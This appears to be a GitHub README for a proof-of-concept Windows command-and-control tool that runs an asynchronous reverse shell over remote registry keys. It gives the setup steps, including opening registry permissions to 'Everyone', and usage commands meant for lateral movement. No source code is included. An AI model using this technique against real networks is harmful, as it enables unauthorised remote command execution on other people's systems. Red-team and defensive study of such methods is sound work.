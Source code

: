 # Everything Is A Shell... An asyncrounous shell at least...

This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems.  

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client and server will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client checks the "cmd" value at the server, executes it and writes the result to the output value on the server. 
6. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <cmd>        cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
